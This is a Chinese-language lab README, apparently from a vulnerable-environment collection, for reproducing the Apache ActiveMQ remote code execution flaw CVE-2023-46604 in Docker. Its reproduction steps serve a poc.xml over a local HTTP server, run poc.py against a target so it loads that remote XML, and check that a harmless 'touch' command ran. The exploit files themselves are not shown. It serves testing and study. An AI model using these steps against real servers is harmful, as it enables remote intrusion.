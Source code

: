 # Apache ActiveMQ (版本 < 5.18.3) RCE （CVE-2023-46604）

## 环境搭建

搭建及运行漏洞环境：

```
docker compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，61616为工作端口。在本次漏洞利用中，我们只需要用到61616端口。执行漏洞验证过程时，请先访问8161端口，确认服务启动成功。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 背景简述
Apache ActiveMQ存在远程代码执行漏洞。该漏洞可能允许具有网络访问权限的远程攻击者通过操纵OpenWire协议中的序列化类类型来运行任意shell命令，从而导致代理实例化类路径上的任何类。

| 默认端口      | 默认条件      |
|-----------|-----------|
| 8161  web | 需配置才可远程访问 |
| 61616 tcp | 远程访问      |


## 漏洞复现
在poc.xml的文件夹下启动http服务
```shell
python3 -m http.server 6666
```

执行poc.py
```shell
python3 poc.py target port http://启动http服务的ip/poc.xml
```

到activeMQ容器中进行查看：

docker exec cve-2023-46604-activemq-1 ls -l /tmp

可以看到touch /tmp/activeMQ-RCE-success成功被执行：

![01.png](01.png)
